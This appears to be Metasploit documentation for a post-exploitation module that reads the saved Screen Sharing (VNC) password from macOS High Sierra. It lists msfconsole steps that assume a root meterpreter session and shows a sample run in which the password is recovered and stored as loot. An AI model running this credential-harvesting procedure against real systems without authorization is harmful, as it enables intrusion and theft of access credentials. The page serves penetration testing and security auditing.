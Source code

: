 ## Vulnerable Application

This module shows Apple VNC Password from Mac OS X High Sierra.

The password can be set by visiting:
System Preferences > Sharing > Screen Sharing > Computer Settings

  * macOS 10.13.6


## Verification Steps

  1. Start `msfconsole`
  2. Get an OSX meterpreter session running as root
  3. Do: `use post/osx/gather/vnc_password_osx`
  4. Do: `set SESSION [ID]`
  5. Do: `run`
  6. You should see the password


## Scenarios

  Typical run against an OSX session, with the vnc service activated:

```
msf exploit(multi/handler) > use post/osx/gather/vnc_password_osx
msf post(osx/gather/vnc_password_osx) > set SESSION 1
SESSION => 1
msf post(osx/gather/vnc_password_osx) > exploit

[*] Checking VNC Password...
[+] Password Found: PoCpassw
[+] Password data stored as loot in: .msf4/loot/20181002142527_default_10.0.2.15_osx.vnc.password_371610.txt
[*] Post module execution completed
msf post(osx/gather/vnc_password_osx) >
```
